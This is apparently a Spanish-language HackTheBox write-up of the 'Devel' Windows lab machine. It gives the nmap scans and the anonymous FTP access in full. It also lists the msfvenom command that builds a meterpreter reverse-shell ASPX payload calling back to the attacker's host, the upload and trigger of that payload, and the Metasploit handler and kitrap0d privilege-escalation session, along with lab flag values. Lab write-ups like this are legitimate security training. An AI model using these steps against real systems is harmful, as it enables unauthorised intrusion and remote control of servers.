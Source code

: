 # Devel

Plataforma: HackTheBox
OS: Windows
Level: Easy
Status: Done
Complete: Yes
EJPT: yes
Created time: 2 de febrero de 2025 15:36
IP: 10.10.10.5

## Recopilación de información

<aside>
💡 Reconocimiento general

</aside>

Siste

```bash
whichSystem.py 10.10.10.5

	10.10.10.5 (ttl -> 127): Windows
```

### **Escaneo de puertos**

Comenzamos con un escaneo para identificar que puertos están abiertos.

---

```bash
sudo nmap -p- --open -T5 -sS --min-rate 5000 -n -Pn -vvv 10.10.10.5 -oG targeted

PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 127
80/tcp open  http    syn-ack ttl 127
```

### **Enumeración de servicios**

Una vez listado los puertos accesibles, procederemos a realizar la enumeración de servicios para su posterior identificación de vulnerabilidades.

---

```bash
sudo nmap -p21,80 -sCV 10.10.10.5 -oN targeted

PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  01:06AM       <DIR>          aspnet_client
| 03-17-17  04:37PM                  689 iisstart.htm
|_03-17-17  04:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
| http-methods: 
|_  Potentially risky methods: TRACE
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

- **Identificación de vulnerabilidades**
    - 21/tcp open  ftp     Microsoft ftpd
    - 80/tcp open  http    Microsoft IIS httpd 7.5

- **Enumeración FTP**
    
    Vemos que tiene permitido el acceso con usuario “Anonymous”
    
    ```bash
    ftp anonymous@10.10.10.5
    Connected to 10.10.10.5.
    220 Microsoft FTP Service
    331 Anonymous access allowed, send identity (e-mail name) as password.
    Password: 
    230 User logged in.
    Remote system type is Windows_NT.
    ftp> ls
    229 Entering Extended Passive Mode (|||49158|)
    125 Data connection already open; Transfer starting.
    03-18-17  01:06AM       <DIR>          aspnet_client
    03-17-17  04:37PM                  689 iisstart.htm
    03-17-17  04:37PM               184946 welcome.png
    226 Transfer complete.
    ftp> cd aspnet_client
    250 CWD command successful.
    ftp> ls
    229 Entering Extended Passive Mode (|||49160|)
    125 Data connection already open; Transfer starting.
    03-18-17  01:06AM       <DIR>          system_web
    226 Transfer complete.
    ftp> cd system_web
    250 CWD command successful.
    ftp> ls
    229 Entering Extended Passive Mode (|||49162|)
    125 Data connection already open; Transfer starting.
    03-18-17  01:06AM       <DIR>          2_0_50727
    226 Transfer complete.
    ftp> cd 2_0_50727
    250 CWD command successful.
    ftp> ls
    ```
    
    Vemos que podemos subir ficheros al servidor y vemos que se trata de un IIS que usa ASPnet.
    
    Generamos un payload con MSFvenom para obtener una rever con meterpreter
    
    ```bash
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.16.15 LPORT=4444 -f aspx > aspx_met_10.10.16.15_4444.aspx
    ```
    
    Lo subimos a la raiz del ftp
    
    ```bash
    ftp> put aspx_met_10.10.16.15_4444.aspx
    ```
    

## Explotación

<aside>
💡 Probamos diferentes accesos

</aside>

### Explotación 1

Creamos en metasploit una sesion para obtener la rever:

```bash
msf > use exploit/multi/handler
msf > set payload_windows/meterpreter/reverse_tcp
msf > set LHOST 10.10.16.15
msf > run
```

Accedermos al fichero que hemos subido con 

```bash
http://10.10.10.5/aspx_met_10.10.16.15_4444.aspx
```

Obtenemos la session de meterpreter. Vemos que esta el usuario babis per no tenemos permisos para ver nada.

Siguiendo las notas de HTB usamos el modulo de reconocimiento : local_exploit_suggestion

```bash
# Primero ponemos nuestra session en backgrount
msf > cntl+Z
msf6 post(multi/recon/local_exploit_suggester) > set SESSION 1
msf6 post(multi/recon/local_exploit_suggester) > use

```

### Explotación 2

### Explotación posterior

<aside>
💡 Accedemos con las credenciales encontradas

</aside>

### Escalada de privilegios

Exploits sugeridos

```bash
 #   Name                                                           Potentially Vulnerable?  Check Result
 -   ----                                                           -----------------------  ------------
 1   exploit/windows/local/bypassuac_comhijack                      Yes                      The target appears to be vulnerable.
 2   exploit/windows/local/bypassuac_eventvwr                       Yes                      The target appears to be vulnerable.
 3   exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move   Yes                      The service is running, but could not be validated. Vulnerable Windows 7/Windows Server 2008 R2 build detected!
 4   exploit/windows/local/ms10_015_kitrap0d                        Yes                      The service is running, but could not be validated.
 5   exploit/windows/local/ms10_092_schelevator                     Yes                      The service is running, but could not be validated.
 6   exploit/windows/local/ms13_053_schlamperei                     Yes                      The target appears to be vulnerable.
 7   exploit/windows/local/ms13_081_track_popup_menu                Yes                      The target appears to be vulnerable.
 8   exploit/windows/local/ms14_058_track_popup_menu                Yes                      The target appears to be vulnerable.
 9   exploit/windows/local/ms15_004_tswbproxy                       Yes                      The service is running, but could not be validated.
 10  exploit/windows/local/ms15_051_client_copy_image               Yes                      The target appears to be vulnerable.
 11  exploit/windows/local/ms16_016_webdav                          Yes                      The service is running, but could not be validated.
 12  exploit/windows/local/ms16_032_secondary_logon_handle_privesc  Yes                      The service is running, but could not be validated.
 13  exploit/windows/local/ms16_075_reflection                      Yes                      The target appears to be vulnerable.
 14  exploit/windows/local/ms16_075_reflection_juicy                Yes                      The target appears to be vulnerable.
 15  exploit/windows/local/ntusermndragover                         Yes                      The target appears to be vulnerable.
 16  exploit/windows/local/ppr_flatten_rec                          Yes                      The target appears to be vulnerable.
 
```

Probamos con varios pero no funciona. 

Encontramos que funciona:

```bash
msf > exploit/windows/local/ms10_015_kitrap0d  
msf6 exploit(windows/local/ms10_015_kitrap0d) > set SESSION 1
SESSION => 1
msf6 exploit(windows/local/ms10_015_kitrap0d) > run
[-] Handler failed to bind to 10.10.16.15:4444:-  -
[-] Handler failed to bind to 0.0.0.0:4444:-  -
[*] Reflectively injecting payload and triggering the bug...
[*] Launching netsh to host the DLL...
[+] Process 2184 launched.
[*] Reflectively injecting the DLL into 2184...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Exploit completed, but no session was created.
msf6 exploit(windows/local/ms10_015_kitrap0d) > run
[*] Started reverse TCP handler on 10.10.16.15:4444 
[*] Reflectively injecting payload and triggering the bug...
[*] Launching msiexec to host the DLL...
[+] Process 716 launched.
[*] Reflectively injecting the DLL into 716...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (177734 bytes) to 10.10.10.5
[*] Meterpreter session 2 opened (10.10.16.15:4444 -> 10.10.10.5:49211) at 2025-02-02 17:20:23 +0100

meterpreter > ls

Listing: c:\users\babis\Desktop
===============================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  282   fil   2017-03-17 15:17:51 +0100  desktop.ini
100444/r--r--r--  34    fil   2025-02-02 15:36:39 +0100  user.txt

meterpreter > type us
[-] Unknown command: type. Run the help command for more details.
meterpreter > cat user.txt 
993f957c1590e6b4afbb134baea8776f
```

User Flag: 993f957c1590e6b4afbb134baea8776f

```bash
meterpreter > ls
Listing: c:\users\Administrator\Desktop
=======================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  282   fil   2017-03-18 00:16:53 +0100  desktop.ini
100444/r--r--r--  34    fil   2025-02-02 15:36:39 +0100  root.txt

meterpreter > cat root.txt 
66754e88f3a4b81e993d865d3f4353eb
```

Root flag: 66754e88f3a4b81e993d865d3f4353eb

## Conclusión

<aside>
💡 Maquina facil en la que he aprendido a manejar un poco mejor metasploit. Me he estancado en ver como ejecutar la rever en el servidor. Intentaba explotarlo a traves del enlace del html

</aside>